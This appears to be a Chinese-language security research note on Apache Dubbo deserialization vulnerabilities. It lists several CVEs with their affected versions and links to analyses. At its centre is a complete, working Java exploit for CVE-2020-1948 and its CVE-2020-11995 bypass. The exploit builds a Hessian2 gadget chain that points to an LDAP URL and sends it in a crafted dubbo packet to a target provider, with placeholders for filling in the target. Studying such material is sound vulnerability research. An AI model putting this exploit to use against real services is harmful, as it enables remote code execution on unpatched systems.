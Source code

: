 # Dubbo 

>Apache Dubbo 是伪装的、轻量级的Java RPC 服务框架。[RPC服务](https://www.zhihu.com/question/25536695) 
>[默认反序列化利用之hessian2](https://www.anquanke.com/post/id/197658)

### CVE-2019-17564
>spring (spring-web（5.1.9.RELEASE）) 的httpinvoker 可能存在反序列化漏洞 [docs](https://docs.spring.io/spring-framework/docs/5.1.0.RELEASE/spring-framework-reference/integration.html#remoting-httpinvoker)

http://www.lmxspace.com/2020/02/16/Apache-Dubbo%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2019-17564%EF%BC%89/

https://www.mi1k7ea.com/2021/07/03/%E6%B5%85%E6%9E%90Dubbo-HttpInvokerServiceExporter%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2019-17564%EF%BC%89/

### CVE-2020-1948
https://www.anquanke.com/post/id/209251
```
2.7.0 <= Dubbo Version <= 2.7.6
2.6.0 <= Dubbo Version <= 2.6.7
Dubbo 所有 2.5.x 版本（官方团队目前已不支持）
```

### CVE-2020-11995

CVE-2020-1948的绕过

```
Dubbo 2.7.0 ~ 2.7.8
Dubbo 2.6.0 ~ 2.6.8
Dubbo 所有 2.5.x 版本
```

```java
import com.rometools.rome.feed.impl.EqualsBean;
import com.rometools.rome.feed.impl.ToStringBean;
import com.sun.rowset.JdbcRowSetImpl;
import java.io.ByteArrayOutputStream;
import java.io.OutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.net.Socket;
import java.util.HashMap;
import java.util.Random;
import marshalsec.util.Reflections;
import org.apache.dubbo.common.io.Bytes;
import org.apache.dubbo.common.serialize.Cleanable;
import org.apache.dubbo.common.serialize.hessian2.Hessian2ObjectOutput;

/**
 *  CVE-2020-1948 exp
 *  if (!RpcUtils.isGenericCall(path, getMethodName()) && !RpcUtils.isEcho(path, getMethodName())) {
 *       throw new IllegalArgumentException("Service not found:" + path + ", " + getMethodName());
 *  }
 * 下面有绕过CVE-2020-11995
 * 调用的函数名为 "$invoke"、 "$invokeAsync"、"$echo"三者之一
 */
public class GadgetsTestHessian {

    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl rs = new JdbcRowSetImpl();
        //todo 此处填写ldap url
        rs.setDataSourceName("ldap://127.0.0.1:43658/ExecObject");
        rs.setMatchColumn("foo");
        Reflections.getField(javax.sql.rowset.BaseRowSet.class, "listeners").set(rs, null);

        ToStringBean item = new ToStringBean(JdbcRowSetImpl.class, rs);
        EqualsBean root = new EqualsBean(ToStringBean.class, item);

        HashMap s = new HashMap<>();
        Reflections.setFieldValue(s, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, root, root, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, root, root, null));
        Reflections.setFieldValue(s, "table", tbl);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

        // header.
        byte[] header = new byte[16];
        // set magic number.
        Bytes.short2bytes((short) 0xdabb, header);
        // set request and serialization flag.
        header[2] = (byte) ((byte) 0x80 | 2);

        // set request id.
        Bytes.long2bytes(new Random().nextInt(100000000), header, 4);

        ByteArrayOutputStream hessian2ByteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2ObjectOutput out = new Hessian2ObjectOutput(hessian2ByteArrayOutputStream);

        out.writeUTF("2.0.2");
        //todo 此处填写注册中心获取到的service全限定名、版本号、方法名
        out.writeUTF("com.threedr3am.learn.server.boot.DemoService");
        out.writeUTF("1.0");
        out.writeUTF("$invoke");//CVE-2020-11995  $invoke,$invokeAsync,$echo
        //todo 方法描述不需要修改，因为此处需要指定map的payload去触发
        out.writeUTF("Ljava/util/Map;");
        out.writeObject(s);
        out.writeObject(new HashMap());

        out.flushBuffer();
        if (out instanceof Cleanable) {
            ((Cleanable) out).cleanup();
        }

        Bytes.int2bytes(hessian2ByteArrayOutputStream.size(), header, 12);
        byteArrayOutputStream.write(header);
        byteArrayOutputStream.write(hessian2ByteArrayOutputStream.toByteArray());

        byte[] bytes = byteArrayOutputStream.toByteArray();

//todo 此处填写被攻击的dubbo服务提供者地址和端口
        Socket socket = new Socket("127.0.0.1", 12345);
        OutputStream outputStream = socket.getOutputStream();
        outputStream.write(bytes);
        outputStream.flush();
        outputStream.close();
    }
}
```
### CVE-2021-25641
>Dubbo Provider即服务提供方默认使用dubbo协议来进行RPC通信，而dubbo协议默认是使用Hessian2序列化格式进行对象传输的,不过可以通过更改dubbo协议的第三个flag位字节来更改为使用Kryo或FST序列化格式来进行Dubbo Provider反序列化攻击从而绕过针对Hessian2反序列化相关的限制来达到RCE。

https://www.mi1k7ea.com/2021/06/30/%E6%B5%85%E6%9E%90Dubbo-KryoFST%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-25641%EF%BC%89/

```
CVE-2021-25641 利用版本需要判断

一方面dubbo-common必须<=2.7.3版本另一方面fj的版本要<=1.2.49 并且在2.7.4.1的版本中已经更新了fj版本所以不能使用(只是目前)

```
~~可以整理一个fastjson利用gadget~~

### CVE-2021-30179

分析：https://mp.weixin.qq.com/s/vHJpE2fZ8Lne-xFggoQiAg
实验：https://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247488856&idx=1&sn=ee37514a5bfbf8c35f4ec661a4c7d45a&chksm=903933a8a74ebabecaf9428995491494f20e5b24a15f8d52e79d3a9dac601620c21d097cdc1f&scene=21#wechat_redirect

```
Apache Dubbo 2.7.0 to 2.7.9
Apache Dubbo 2.6.0 to 2.6.9
Apache Dubbo all 2.5.x versions (官方已不再提供支持)

实验：https://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247488856&idx=1&sn=ee37514a5bfbf8c35f4ec661a4c7d45a&chksm=903933a8a74ebabecaf9428995491494f20e5b24a15f8d52e79d3a9dac601620c21d097cdc1f&scene=21#wechat_redirect

```
exp:https://github.com/lz2y/DubboPOC
```
Apache Dubbo默认支持泛化引用由服务端API接口暴露的所有方法，这些调用由GenericFilter处理。GenericFilter将根据客户端提供的接口名、方法名、方法参数类型列表，根据反射机制获取对应的方法，再根据客户端提供的反序列化方式将参数进行反序列化成pojo对象。

也就是说需要知道注册中心注册的接口名，方法名，才可以配合攻击。
```
也就是需要存在无授权服务注册中心比如zookeeper的无授权去获得接口名和方法名。使用工具**zookeeper-dev-ZooInspector.jar**

**个人认为CVE-2021-30179的主要思路就是Apache Dubbo在处理泛类引用时，提供了多种通过反序列化方式得到对象再生成pojo对象的选择。** 三梦师傅说跟这个思路扩大了反序列化挖掘思路

### Dubbo反序列化RCE利用之新拓展面 - Dubbo Rouge攻击客户端

https://xz.aliyun.com/t/7354

**文章中有一点非常强**
![image](https://user-images.githubusercontent.com/63966847/139078049-28694796-bb21-40fe-9e8d-38d96da29ab8.png)
